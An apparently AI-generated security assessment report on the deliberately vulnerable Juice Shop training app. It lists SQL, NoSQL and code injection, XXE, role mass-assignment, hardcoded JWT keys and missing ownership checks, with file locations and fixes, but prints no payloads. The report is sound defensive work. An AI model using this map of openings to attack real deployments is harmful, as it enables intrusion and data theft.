# Security Assessment Report - Juice Shop

_Analysis of security architecture and threats_

_Generated by AppSec Analyzer v0.1.0a0 (analysis v6)_


---

> | | |
> |---|---|
> | **Project** | Juice Shop |
> | **Repository** | `https://github.com/juice-shop/juice-shop.git` |
> | **Homepage** | `https://github.com/juice-shop/juice-shop` |

---

## Changelog

_Append-only history of assessment runs. Most recent first._
| Version | Date | Scan | Model | Δ Threats | Note |
|--------|--------------------|---------------|--------------|----------------|---------------|
| verification | 2026-11-12 12:41 UTC | dynamic verification · safe | claude-sonnet-5-5 | 7 confirmed · 25 inconclusive | AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12); ratings changed: 1 |
| v1 | 2026-11-09 20:40 CET | full · standard | sonnet-economy | 110 total | first full scan |

---

## Table of Contents

- [Management Summary](#management-summary)
- [Critical Findings by Root Cause](#critical-findings-by-root-cause)
1. [System Overview](#1-system-overview)
   - [Scope](#scope)
   - [Identified Actors](#identified-actors)
   - [Trust Boundaries](#trust-boundaries)
   - [Platform Security Settings](#platform-security-settings)
2. [Architecture Diagrams](#2-architecture-diagrams)
   - [2.1 System Context](#21-system-context)
   - [2.2 Container Architecture](#22-container-architecture)
   - [2.3 Components](#23-components)
3. [Attack Walkthroughs](#3-attack-walkthroughs)
   - [3.1 SQL injection in product search](#31-sql-injection-in-product-search)
   - [3.2 SQL injection in login credential query](#32-sql-injection-in-login-credential-query)
   - [3.3 Insecure Direct Object Reference (Card) in Payment](#33-insecure-direct-object-reference-card-in-payment)
   - [3.4 Code injection in User Profile](#34-code-injection-in-user-profile)
   - [3.5 Mass assignment of role on user registration in Juice Shop Express Server](#35-mass-assignment-of-role-on-user-registration-in-juice-shop-express-server)
   - [3.6 User registration accepts a client-chosen role in Juice Shop Express Server](#36-user-registration-accepts-a-client-chosen-role-in-juice-shop-express-server)
   - [3.7 Hardcoded JWT signing key and HMAC secrets](#37-hardcoded-jwt-signing-key-and-hmac-secrets)
   - [3.8 JWT verification does not pin an algorithm](#38-jwt-verification-does-not-pin-an-algorithm)
4. [Assets](#4-assets)
5. [Attack Surface](#5-attack-surface)
   - [5.1 Unauthenticated Entry Points (0)](#51-unauthenticated-entry-points-0)
   - [5.2 Authenticated Entry Points (60)](#52-authenticated-entry-points-60)
   - [5.3 Authentication Not Determined (85)](#53-authentication-not-determined-85)
6. [Security Architecture](#6-security-architecture)
   - [6.1 Security Control Overview](#61-security-control-overview)
   - [6.2 Identity and Authentication Controls](#62-identity-and-authentication-controls)
   - [6.3 Session and Token Controls](#63-session-and-token-controls)
   - [6.4 Authorization Controls](#64-authorization-controls)
   - [6.5 Query Construction and Data Access Controls](#65-query-construction-and-data-access-controls)
   - [6.6 Input Boundary Validation Controls](#66-input-boundary-validation-controls)
   - [6.7 Output Encoding and Rendering Controls](#67-output-encoding-and-rendering-controls)
   - [6.8 Browser and Cross-Origin Controls](#68-browser-and-cross-origin-controls)
   - [6.9 Cryptography Secrets and Data Protection](#69-cryptography-secrets-and-data-protection)
   - [6.10 File Parser and Outbound Request Controls](#610-file-parser-and-outbound-request-controls)
   - [6.11 Operations Runtime and Supply Chain Controls](#611-operations-runtime-and-supply-chain-controls)
   - [6.12 Real-time and Not Applicable Controls](#612-real-time-and-not-applicable-controls)
   - [6.13 Defense-in-Depth Summary](#613-defense-in-depth-summary)
7. [Weakness Register](#7-weakness-register)
8. [Findings Register](#8-findings-register)
9. [Abuse Cases](#9-abuse-cases)
10. [Mitigation Register](#10-mitigation-register)
11. [Out of Scope](#11-out-of-scope)
   - [Not Covered by This Method](#not-covered-by-this-method)
   - [Excluded from This Assessment](#excluded-from-this-assessment)
- [Appendix: Verification Items](#appendix-verification-items)
- [Appendix: Run Statistics](#appendix-run-statistics)
- [Appendix A - Attack Vector Taxonomy](#appendix-a-vektor-taxonomy)

---

## Dynamic verification

_Added by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12) from `/tmp/134/verification.yaml`, generated 2026-11-12 12:41 UTC. The Analyzer's ratings stay as they are; the rating after verification stands next to them and follows fixed rules. The proofs of concept and screenshots in this copy may show target data; review before sharing._

Target `http://127.0.0.1:3000` · 32 findings tested: 7 confirmed · 25 inconclusive · 25 not tested.

| Finding | Verdict | Severity (Analyzer) | After verification |
| --- | --- | --- | --- |
| [T-001](#t-001) Angular sanitizer bypass causes XSS in about, search, administration | confirmed | High | Critical (changed) |
| [T-002](#t-002) Systemic missing object ownership checks across address, basket, coupon | inconclusive | High | High |
| [T-004](#t-004) SQL injection in product search — routes/search.ts:23 | confirmed | Critical | Critical |
| [T-011](#t-011) SQL injection in login credential query — routes/login.ts:34 | inconclusive | Critical | Critical |
| [T-012](#t-012) Code injection — routes/userProfile.ts:61 | inconclusive | Critical | Critical |
| [T-015](#t-015) Password change allowed without current password — routes/changePassword.ts:39 | inconclusive | High | High |
| [T-023](#t-023) Arbitrary server file read — routes/dataErasure.ts:104 | inconclusive | High | High |
| [T-024](#t-024) Zip entry path traversal on complaint upload — routes/fileUpload.ts:34 | inconclusive | High | High |
| [T-025](#t-025) Request body orderLinesData evaluated by notevil in vm — routes/b2bOrder.ts:23 | inconclusive | High | High |
| [T-026](#t-026) Unauthenticated modification of products — server.ts:503 | inconclusive | High | High |
| [T-027](#t-027) Wallet credited with unverified body amount — routes/wallet.ts:27 | inconclusive | High | High |
| [T-030](#t-030) Basket item update lacks ownership check and field — routes/basketItems.ts:68 | inconclusive | High | High |
| [T-033](#t-033) NoSQL injection in product reviews $where — routes/showProductReviews.ts:36 | confirmed | High | High |
| [T-034](#t-034) NoSQL injection in order tracking $where predicate — routes/trackOrder.ts:18 | confirmed | High | High |
| [T-035](#t-035) NoSQL operator injection and missing — routes/updateProductReviews.ts:18 | inconclusive | High | High |
| [T-036](#t-036) Wallet top-up accepts unvalidated attacker-chosen balance — routes/wallet.ts:27 | inconclusive | High | High |
| [T-037](#t-037) User-controlled username compiled as Pug template — routes/userProfile.ts:87 | inconclusive | High | High |
| [T-038](#t-038) Chatbot accepts client-supplied message roles and history — routes/chat.ts:206 | inconclusive | High | High |
| [T-039](#t-039) Unauthenticated key and log file exposure — routes/keyServer.ts:14 | inconclusive | High | High |
| [T-041](#t-041) XML parser resolves external entities in uploads — lib/xml.ts:38 | inconclusive | High | High |
| [T-042](#t-042) Any authenticated user can read other users' records and all complaints | inconclusive | High | High |
| [T-044](#t-044) Server-side request forgery in profile — routes/profileImageUrlUpload.ts:24 | inconclusive | High | High |
| [T-046](#t-046) Password reset response returns full user record — routes/resetPassword.ts:46 | inconclusive | High | High |
| [T-051](#t-051) Review author taken from request body — routes/createProductReviews.ts:26 | inconclusive | High | High |
| [T-057](#t-057) Deluxe upgrade skips payment verification — routes/deluxe.ts:43 | inconclusive | High | High |
| [T-058](#t-058) Encryption keys and logs served without authorization — server.ts:278 | confirmed (medium) | High | High |
| [T-060](#t-060) Any authenticated user can list all user accounts — server.ts:363 | confirmed (medium) | High | High |
| [T-065](#t-065) Chatbot coupon tool lacks server-side authorization — routes/chat.ts:184 | inconclusive | High | High |
| [T-066](#t-066) Registration accepts privileged role from request body — server.ts:408 | inconclusive | Critical | Critical |
| [T-067](#t-067) Mass assignment of role on user registration — server.ts:420 | inconclusive | Critical | Critical |
| [T-068](#t-068) User registration accepts a client-chosen role — server.ts:422 | inconclusive | Critical | Critical |
| [T-069](#t-069) User list readable by any authenticated user — routes/authenticatedUsers.ts:12 | confirmed (medium) | High | High |

1 of 32 ratings changed.

## Management Summary

### Verdict

🔴 **Critical security concerns** - This web shop lets anonymous visitors take over the database, run their own code on the server and register as administrators. It should run only as an isolated training target and must never hold real customer data or be reachable from the internet.

**Risk distribution:** 🔴 Critical: 3 · 🟠 High: 30 · 🟡 Medium: 21 · 🟢 Low: n/a · **Total: 54**<br/>**Findings register:** 110 · 🔴 Critical: 4 · 🟠 High: 52 · 🟡 Medium: 54 - the distribution above counts insecure-practice findings under their weakness; see [§8 Findings Register](#8-findings-register)<br/>**Assessment evidence:** 46 of 51 finding(s) confirmed in code<br/>**Weakness classes:** 46 (39 implementation, 7 design) - see [§7 Weakness Register](#7-weakness-register)

<br/>

**Security concerns behind this assessment:**

<blockquote style="border-left: 3px solid #dc2626; padding: 16px 20px; margin: 0;">

- **Shop database readable and alterable by anyone** — SQL injection in product search and login lets unauthenticated visitors read user records and sign in as other users. *(🔴 [F-004](#f-004), 🔴 [F-011](#f-011) → [W-002](#w-002))*
- **Server takeover through a profile name** — Code injection lets any signed-in user run commands of their choice on the server by setting a crafted username. *(🔴 [F-012](#f-012) → [W-001](#w-001))*
- **Customers can read and change each other's records** — Missing ownership checks (IDOR) let any signed-in customer read or modify another customer's orders, baskets and addresses. *(🔴 [F-010](#f-010) → [W-007](#w-007))* — left open by the evidence review: 🔴 [F-010](#f-010) — Insecure Direct Object Reference
- **Anyone can become an administrator** — Mass assignment on registration lets an anonymous visitor choose the administrator role for a new account. *(🟠 [F-067](#f-067), 🟠 [F-068](#f-068), 🟠 [F-066](#f-066) → [W-008](#w-008))* — ✓ cited finding in a code-verified chain — left open by the evidence review: 🟠 [F-067](#f-067) — Mass assignment of role on user registration
- **Login tokens can be forged for any user** — A hard-coded token signing key and unpinned verification let anyone with the source code mint tokens for any account, including admin. *(🟡 [F-078](#f-078), 🟠 [F-048](#f-048) → [W-003](#w-003), [W-046](#w-046))* — ✓ cited finding in a code-verified chain — left open by the evidence review: 🟡 [F-078](#f-078) — JWT verification does not pin an algorithm

</blockquote>

<br/>

Until these gaps are closed, treat every account, order and stored credential in this system as exposed to anonymous internet visitors.

**About this assessment:** An AI-assisted threat model derived from the implementation of Juice Shop. It reconstructs the implemented architecture (9 components and 5 external services, see [§2](#2-architecture-diagrams)) and identifies threats and control gaps in it.


**Method and limits:** Automated static analysis of code and configuration, not a pentest or a team threat-modeling session; Low and Informational findings not reported (threshold: medium) - see [§11 Out of Scope](#11-out-of-scope).

### Remediation Priorities

The root causes behind the findings, ranked by severity, each with the measures to do first. The lasting fix under a root cause removes it and every finding it causes. Every mitigation that fixes a Critical finding is listed. Details in the [§7 Weakness Register](#7-weakness-register) and the [§10 Mitigation Register](#10-mitigation-register).

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="30%" style="width:30%"><col width="28%" style="width:28%"><col width="33%" style="width:33%"><col width="9%" style="width:9%"></colgroup>
<thead><tr><th>Root cause → lasting fix</th><th>Do first</th><th>Resolves</th><th>Effort</th></tr></thead>
<tbody>
<tr><td rowspan="2" style="overflow-wrap:break-word">🔴 <a href="#w-001">W-001</a> - Application data crosses into executable code<br/><em>→ replace evaluation of application values with a data parser or a fixed set of operations whose arguments remain data</em></td><td style="overflow-wrap:break-word">● <a href="#m-034">M-034</a> - Remove eval of profile username</td><td style="overflow-wrap:break-word">🔴 <a href="#f-012">F-012</a> - Code injection</td><td style="white-space:nowrap">Low</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-045">M-045</a> - Remove evaluation of order data</td><td style="overflow-wrap:break-word">🟠 <a href="#f-025">F-025</a> - Request body <code>orderLinesData</code> evaluated by notevil in vm</td><td style="white-space:nowrap">Medium</td></tr>
<tr><td rowspan="2" style="overflow-wrap:break-word">🔴 <a href="#w-002">W-002</a> - Database access relies on concatenated queries<br/><em>→ provide one parameterised repository or query-builder path and prohibit application-value interpolation in database queries</em></td><td style="overflow-wrap:break-word">● <a href="#m-031">M-031</a> - Use bound parameters in product search query</td><td style="overflow-wrap:break-word">🔴 <a href="#f-004">F-004</a> - SQL injection in product search</td><td style="white-space:nowrap">Low</td></tr>
<tr><td style="overflow-wrap:break-word">● <a href="#m-033">M-033</a> - Use parameterized queries for login lookup</td><td style="overflow-wrap:break-word">🔴 <a href="#f-011">F-011</a> - SQL injection in login credential query</td><td style="white-space:nowrap">Low</td></tr>
<tr><td rowspan="3" style="overflow-wrap:break-word">🟠 <a href="#w-003">W-003</a> - Authentication relies on hand-rolled token verification<br/><em>→ centralise token validation on a vetted library with pinned algorithms, issuer and audience checks, and managed signing keys</em></td><td style="overflow-wrap:break-word">● <a href="#m-091">M-091</a> - Pin <code>RS256</code> in every token verification call</td><td style="overflow-wrap:break-word">🟡 <a href="#f-078">F-078</a> - JWT verification does not pin an algorithm</td><td style="white-space:nowrap">Low</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-036">M-036</a> - Verify token signatures before trusting claims</td><td style="overflow-wrap:break-word">🟠 <a href="#f-016">F-016</a> - OAuth implicit flow without state, nonce or audience</td><td style="white-space:nowrap">Medium</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-039">M-039</a> - Enforce JWT signature and algorithm verification</td><td style="overflow-wrap:break-word">🟠 <a href="#f-019">F-019</a> - JWT decode used without signature verification</td><td style="white-space:nowrap">Medium</td></tr>
<tr><td rowspan="3" style="overflow-wrap:break-word">🟠 <a href="#w-007">W-007</a> - Authorization is implemented route by route<br/><em>→ enforce authorization through a shared server-side policy layer and make ownership and tenant scope mandatory inputs to data access</em></td><td style="overflow-wrap:break-word">● <a href="#m-032">M-032</a> - Enforce object-level (ownership) authorization</td><td style="overflow-wrap:break-word">🔴 <a href="#f-010">F-010</a> - Insecure Direct Object Reference</td><td style="white-space:nowrap">Medium</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-029">M-029</a> - Enforce basket ownership on lookup</td><td style="overflow-wrap:break-word">🟠 <a href="#f-002">F-002</a> - Systemic missing object ownership checks across address, basket, coupon</td><td style="white-space:nowrap">Low</td></tr>
<tr><td style="overflow-wrap:break-word">◕ <a href="#m-050">M-050</a> - Enforce object-level (ownership) authorization</td><td style="overflow-wrap:break-word">🟠 <a href="#f-030">F-030</a> - Basket item update lacks ownership check and field</td><td style="white-space:nowrap">Low</td></tr>
<tr><td rowspan="2" style="overflow-wrap:break-word">🟠 <a href="#w-008">W-008</a> - Privileged attributes lack an enforced write allowlist<br/><em>→ define operation-specific write schemas and assign privileged attributes exclusively through server-side policy</em></td><td style="overflow-wrap:break-word">● <a href="#m-079">M-079</a> - Restrict registration fields with an allow-list</td><td style="overflow-wrap:break-word">🟠 <a href="#f-066">F-066</a> - Registration accepts privileged role from request body</td><td style="white-space:nowrap">Low</td></tr>
<tr><td style="overflow-wrap:break-word">● <a href="#m-080">M-080</a> - Strip role from registration input</td><td style="overflow-wrap:break-word">🟠 <a href="#f-067">F-067</a> - Mass assignment of role on user registration</td><td style="white-space:nowrap">Low</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word">🟡 <a href="#w-046">W-046</a> - Secrets are committed to source instead of a managed store<br/><em>→ move every secret to a managed secret store or injected environment configuration, rotate the exposed values, and add secret-scanning to CI</em></td><td style="overflow-wrap:break-word">● <a href="#m-065">M-065</a> - Move secrets to a managed secret store</td><td style="overflow-wrap:break-word">🟠 <a href="#f-048">F-048</a> - Hardcoded JWT signing key and HMAC secrets</td><td style="white-space:nowrap">Medium</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word"><em>No root cause linked</em></td><td style="overflow-wrap:break-word">● <a href="#m-081">M-081</a> - Allow-list registration fields and force the customer role</td><td style="overflow-wrap:break-word">🟠 <a href="#f-068">F-068</a> - User registration accepts a client-chosen role</td><td style="white-space:nowrap">Low</td></tr>
</tbody>
</table>

*42 more P1/P2 mitigations and 75 P3/P4 backlog items in the [§10 Mitigation Register](#10-mitigation-register). ● P1 · ◕ P2 · ◑ P3 · ○ P4*

### Open Questions for the Team

The code cannot answer these questions; the people who own the business and the deployment can. Each question states under it what its answer changes.

- _How critical are Shop relational data, User credentials and JWT session tokens to the business, and what harm would their disclosure, manipulation or unavailability cause?_
  The answer weights the impact rating and fix order of every finding that reaches these assets.
- _Which sensitive business records can the production database account used by Juice Shop Express Server or Authentication & Session Surface access?_ ([W-002](#w-002): [F-004](#f-004), [F-011](#f-011))
  Personal or regulated data in reach raises both the breach impact and any notification duty; a narrowly scoped account limits the blast radius.
- _If an attacker runs code in Juice Shop Express Server, which other services, secrets or credentials can that process reach?_ ([F-012](#f-012), [F-025](#f-025) (unproven))
  Every reachable service or credential extends this from one component to a wider compromise and raises the priority of isolating that process; an isolated process contains it.

### Security Posture & Top Threats

**Figure 1a - Runtime Architecture and Threat Overview**

At runtime, Juice Shop has 8 components in 3 layers and exchanges data with 5 external services. Figure 1a shows these data flows and where each of the 6 attack scenarios below begins. The complete boundary catalogue remains in [§1 Trust Boundaries](#trust-boundaries).

<picture><source media="(prefers-color-scheme: dark)" srcset="security-assessment.figure1-dark.svg"></picture>

**Build pipeline**, not drawn in this runtime view: GitHub Actions, GitLab CI.  Supply-Chain / Build Attacker → [Figure 1b](#figure-1b).

Role access and finding assignments are listed in [Identified Actors](#identified-actors).

**Actor grouping.** Regular self-registered users are grouped with anonymous internet attackers because registration is open. Repository readers are grouped with anonymous internet attackers because the source repository is public. Each finding retains its login and privilege requirements.

<a id="figure-1b"></a>

**Figure 1b - Supply Chain and Build**

Juice Shop builds in GitHub Actions, GitLab CI. Figure 1b shows the inputs, build systems and release artifacts the repository evidences, with 8 findings attached to them. The highlighted path follows 🟡 [F-089](#f-089) — Untrusted npm Install/Postinstall Scripts Enabled as far as the repository evidences it.

<picture><source media="(prefers-color-scheme: dark)" srcset="security-assessment.figure1b-dark.svg"></picture>

**Figure 2 - Attack Routes and Impact**

Each numbered route names one example finding from the corresponding Top Threats group with its access prerequisite, the register weakness it is linked to, and the group's potential business harm, which depends on deployment and affected assets. W-IDs in parentheses link the example to an existing weakness. The attack step, affected component and technical consequence are listed in the findings register. Red arrows indicate attacks; dashed red arrows involve a victim; grey arrows lead to potential harm.

<picture><source media="(prefers-color-scheme: dark)" srcset="security-assessment.figure2-dark.svg"></picture>

**Threat actors.** The actors below drive the numbered attack paths in the figures above. The **Juice Shop User** is the *victim* of client-side attacks (XSS / CSRF), not an attacker. Figure 2 marks victim interaction on the applicable attack routes.

- **Juice Shop User** — legitimate end user; target of client-side attacks; target of ⑥ Output Encoding / Cross-Site Scripting.
- **Internet Attacker** — can self-register a regular account; drives ① Broken Authorization & Access Control, ② Insecure Query Construction & Data Access, ③ Remote Code Execution (unsafe eval), ④ Hardcoded Secrets & Weak Cryptography, ⑤ Sensitive File & Secret Exposure, ⑥ Output Encoding / Cross-Site Scripting.

**6 structural threats**, grouped by weakness class - each row is one threat, not one finding. *Threat Description* states the general architectural weakness (STRIDE in brackets); *Findings* lists the concrete instances by severity under their component, each linked to the [§8 Findings Register](#8-findings-register), and on screen an ID shows its title when you point at it; *Risk & Impact* combines severity with business consequence; *Primary Measures* names the most important measures for this threat, most important first, one per root cause. All measures are in the [§10 Mitigation Register](#10-mitigation-register).

| # | Threat Description | Findings (→ Component) | Risk & Impact | Primary Measures |
|---|------------------------------------|------------------------------------------------|------------------------------------|----------------------|
| <a id="path-privilege-escalation"></a>① | **Broken Authorization & Access Control** _(E·I)_<br/>Missing ownership checks and unrestricted role fields let callers act on other users' objects or grant themselves administrator rights. | → [C-01](#c-01) Juice Shop Express Server<br/>🔴&nbsp;<span style="white-space:nowrap"><a href="#f-010" title="Insecure Direct Object Reference">F-010</a></span><br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-063" title="Unauthenticated product update">F-063</a></span>, <span style="white-space:nowrap"><a href="#f-066" title="Registration accepts privileged role from request body">F-066</a></span>, <span style="white-space:nowrap"><a href="#f-067" title="Mass assignment of role on user registration">F-067</a></span>, <span style="white-space:nowrap"><a href="#f-068" title="User registration accepts a client-chosen role">F-068</a></span>, <span style="white-space:nowrap"><a href="#f-002" title="Systemic missing object ownership checks across address, basket, coupon">F-002</a></span>, <span style="white-space:nowrap"><a href="#f-015" title="Password change allowed without current password">F-015</a></span>, <span style="white-space:nowrap"><a href="#f-030" title="Basket item update lacks ownership check and field">F-030</a></span>, <span style="white-space:nowrap"><a href="#f-042" title="Any authenticated user can read other users' records and all complaints">F-042</a></span>, <span style="white-space:nowrap"><a href="#f-050" title="Basket item add checks different BasketId than it">F-050</a></span>, <span style="white-space:nowrap"><a href="#f-051" title="Review author taken from request body">F-051</a></span>, <span style="white-space:nowrap"><a href="#f-052" title="Review update lacks ownership check">F-052</a></span>, <span style="white-space:nowrap"><a href="#f-053" title="Recycle records readable by any caller by ID">F-053</a></span>, <span style="white-space:nowrap"><a href="#f-057" title="Deluxe upgrade skips payment verification">F-057</a></span>, <span style="white-space:nowrap"><a href="#f-058" title="Encryption keys and logs served without authorization">F-058</a></span>, <span style="white-space:nowrap"><a href="#f-059" title="Sensitive Routes Registered Without Authentication Middleware">F-059</a></span>, <span style="white-space:nowrap"><a href="#f-060" title="Any authenticated user can list all user accounts">F-060</a></span>, <span style="white-space:nowrap"><a href="#f-061" title="Any authenticated user can create products with chosen prices">F-061</a></span>, <span style="white-space:nowrap"><a href="#f-064" title="Duplicate JSON key bypasses basket ownership check">F-064</a></span>, <span style="white-space:nowrap"><a href="#f-065" title="Chatbot coupon tool lacks server-side authorization">F-065</a></span><br/>→ [C-09](#c-09) Authentication & Session Surface<br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-069" title="User list readable by any authenticated user">F-069</a></span><br/><details><summary>8 Medium</summary>→ [C-01](#c-01) Juice Shop Express Server<br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-072" title="Client-supplied UserId accepted when posting feedback">F-072</a></span>, <span style="white-space:nowrap"><a href="#f-084" title="Owner UserId taken from request body on create routes">F-084</a></span>, <span style="white-space:nowrap"><a href="#f-085" title="Security answer creation accepts owner from request body">F-085</a></span>, <span style="white-space:nowrap"><a href="#f-107" title="Data export finds orders by non-unique masked e-mail">F-107</a></span>, <span style="white-space:nowrap"><a href="#f-108" title="Order history matches orders by masked email">F-108</a></span>, <span style="white-space:nowrap"><a href="#f-109" title="Order tracking returns any order by identifier">F-109</a></span>, <span style="white-space:nowrap"><a href="#f-118" title="Any logged-in user can delete any feedback">F-118</a></span>, <span style="white-space:nowrap"><a href="#f-119" title="Basket items readable and deletable across users">F-119</a></span></details> | 🔴 Critical<br/>Full Admin Takeover · Customer Data Exfiltration | <span style="white-space:nowrap">● [M-032](#m-032)</span> - Enforce object-level (ownership) authorization<br/><span style="white-space:nowrap">● [M-079](#m-079)</span> - Restrict registration fields with an allow-list<br/><span style="white-space:nowrap">◕ [M-035](#m-035)</span> - Require current password |
| <a id="path-injection"></a>② | **Insecure Query Construction & Data Access** _(T·I)_<br/>Untrusted request values are concatenated into SQL and document-database queries, letting unauthenticated callers read or alter stored data. | → [C-01](#c-01) Juice Shop Express Server<br/>🔴&nbsp;<span style="white-space:nowrap"><a href="#f-004" title="SQL injection in product search">F-004</a></span><br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-033" title="NoSQL injection in product reviews &#36;where">F-033</a></span>, <span style="white-space:nowrap"><a href="#f-034" title="NoSQL injection in order tracking &#36;where predicate">F-034</a></span>, <span style="white-space:nowrap"><a href="#f-029" title="XML parser resolves external entities and DTDs">F-029</a></span>, <span style="white-space:nowrap"><a href="#f-035" title="NoSQL operator injection and missing">F-035</a></span>, <span style="white-space:nowrap"><a href="#f-037" title="User-controlled username compiled as Pug template">F-037</a></span>, <span style="white-space:nowrap"><a href="#f-040" title="XML external entity expansion in upload parser">F-040</a></span>, <span style="white-space:nowrap"><a href="#f-041" title="XML parser resolves external entities in uploads">F-041</a></span><br/>→ [C-09](#c-09) Authentication & Session Surface<br/>🔴&nbsp;<span style="white-space:nowrap"><a href="#f-011" title="SQL injection in login credential query">F-011</a></span> | 🔴 Critical<br/>Customer Data Exfiltration · Full Admin Takeover | <span style="white-space:nowrap">● [M-031](#m-031)</span> - Use bound parameters in product search query<br/><span style="white-space:nowrap">◕ [M-058](#m-058)</span> - Disable entity substitution and DTD loading<br/><span style="white-space:nowrap">◕ [M-051](#m-051)</span> - Replace \$where string with structured query |
| <a id="path-remote-code-execution"></a>③ | **Remote Code Execution (unsafe eval)** _(E)_<br/>Request data reaches code evaluation routines, giving authenticated callers the ability to run their own code in the server process. | → [C-01](#c-01) Juice Shop Express Server<br/>🔴&nbsp;<span style="white-space:nowrap"><a href="#f-012" title="Code injection">F-012</a></span><br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-025" title="Request body orderLinesData evaluated by notevil in vm">F-025</a></span> | 🔴 Critical<br/>Full Server Compromise | <span style="white-space:nowrap">● [M-034](#m-034)</span> - Remove eval of profile username<br/><span style="white-space:nowrap">◕ [M-045](#m-045)</span> - Remove evaluation of order data |
